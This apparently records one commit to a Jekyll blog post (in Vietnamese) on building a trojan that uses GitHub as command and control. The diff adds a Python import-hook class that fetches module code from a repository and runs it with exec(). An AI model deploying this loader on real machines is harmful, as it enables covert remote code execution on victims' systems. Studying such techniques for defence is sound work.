

Before and after one commit to ybvy/ybvy.github.io, a Jekyll site: the page built from _posts/2025-03-21-trojan-with-github.md, in a window 1280 px wide and 1400 px high, scrolled down 3961 px. Shown: the top 1392 px of the window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 4690 px from its top, so only the background shows below that.

Commit message:
add post trojan

```diff
--- a/_posts/2025-03-21-trojan-with-github.md
+++ b/_posts/2025-03-21-trojan-with-github.md
@@ -236,6 +236,42 @@ def get_file_content(dir_name, module_name, repo: github3.repos.Repository) -> b
 {% endhighlight %}
 Hàm này đọc nội dung của 1 file thông qua **Repository Object**, trả về dữ liệu dạng bytes.
 
+> GitImporter class
+{% highlight bash %}
+class GitImporter:
+    """Custom module loader to fetch and execute modules from GitHub."""
+    def __init__(self, repo):
+        self.current_module_code = ""
+        self.repo = repo
+
+    def find_module(self, name, path=None):
+        print(f"[*] Attempting to retrieve {name}")
+        try:
+            new_lib = get_file_content('modules', f'{name}.py', self.repo)
+            if new_lib:
+                self.current_module_code = new_lib.decode('utf-8')
+                return self
+        except Exception as e:
+            print(f"[!] Error retrieving module {name}: {e}")
+        return None
+
+    def load_module(self, name):
+        if name in sys.modules:
+            return sys.modules[name]
+
+        spec = importlib.util.spec_from_loader(name, loader=None)
+        new_module = importlib.util.module_from_spec(spec)
+
+        try:
+            exec(self.current_module_code, new_module.__dict__)
+        except SyntaxError as e:
+            print(f"[!] Syntax error in module {name}: {e}")
+            return None
+
+        sys.modules[name] = new_module
+        return new_module
+{% endhighlight %}
+
 <script src="https://giscus.app/client.js"
         data-repo="ybvy/ybvy.github.io"
         data-repo-id="R_kgDONiHcVw"
```
